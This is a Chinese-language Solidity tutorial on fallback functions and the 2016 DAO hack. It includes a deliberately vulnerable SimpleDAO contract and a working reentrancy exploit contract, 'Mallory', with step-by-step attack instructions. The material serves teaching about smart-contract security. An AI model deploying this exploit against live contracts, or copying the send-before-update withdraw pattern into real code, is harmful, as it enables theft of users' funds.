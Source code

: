 # `fallback` 函数

一份合约可以有一个无名函数。该函数不能接收参数，也不能有返回。当调用合约时，如果没有函数与给定的函数签名匹配（或者根本没有指定），就执行`fallback`函数。

此外，只要合约收到以太币（无数据），就执行该函数。为了接收以太币，`fallback`函数必须标记为`payable`。

在最坏情况下，`fallback`函数只能依赖2300 gas，除了基本的日志记录外，几乎没有机会执行其他操作。以下操作将消耗多于2300 gas：

* 写存储
* 创建合约
* 调用消耗大量gas的外部函数
* 发送以太币

与其他函数类似，只要有足够的gas，`fallback`函数就可以执行复杂的操作。

**注：**即使`fallback`函数不能传入参数，让然可以使用`msg.data`检索任何调用提供的负载。

```solidity
pragma solidity ^0.4.0;contract Test {    function() public { x = 1; }    uint x;}

contract Sink {    function() public payable { }}

contract Caller {    function callTest(Test test) public {        test.call(0xabcdef01);    }}
```

所有调用`Test`合约的交易都会触发`fallback`函数。向该合约发送以太币会引起一场，因为`fallback`函数没有修饰字`payable`。

`Sink`合约将所有发送给它的以太币存入合约地址，无法取回。

如果`call`的哈希值不存在，`test.x`被赋值为1。

## DAO攻击

DAO是合约实现的众筹平台，在2016年6月18日被攻击前筹集了$150M。区块链硬分叉宣布攻击中的交易无效前，攻击者设法控制了$60M。

我们编写与原始DAO具有相同脆弱点的简化的`SimpleDAO`。

```solidity
pragma solidity ^0.3.1;

contract SimpleDAO {
  mapping (address => uint) public credit;
    
  function donate(address to) {
    credit[to] += msg.value;
  }
    
  function withdraw(uint amount) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
    }
  }  

  function queryCredit(address to) returns (uint){
    return credit[to];
  }
}
```

`SimpleDAO`允许参与者`donate`基金合约；`withdraw`基金。

合约`Mallory`是利用脆弱点的攻击。与真实使用在DAO上的攻击相似，`Mallory`允许攻击者从`SimpleDAO`中窃取所有的以太币。

首先，部署`Mallory`，构造时传入DAO的地址。

```
pragma solidity ^0.3.1;

contract Mallory {
  SimpleDAO public dao;
  address owner;

  function Mallory(SimpleDAO addr){ 
    owner = msg.sender;
    dao = addr;
  }
  
  function getJackpot() { 
    owner.send(this.balance); 
  }

  function() payable { 
    dao.withdraw(dao.queryCredit(this)); 
  }
}
```

然后，攻击者向`Mallory` `donate`以太币。等待他人增加DAO的余额。

最后，调用`Mallory`的`fallback`函数来清空DAO。`fallback`函数调用`withdraw`，将以太币发送给`Mallory`。合约中的`call`调用`Mallory`的`fallback`，恶意地再次调用`withdraw`。由于`withdraw`在更新`credit`域前中断了，所以余额检查再次成功。因此，DAO第二次向`Mallory`发送以太币，并再次调用`fallback`，导致循环，直到：1)gas耗尽；2)栈满；3)DAO的余额归零。


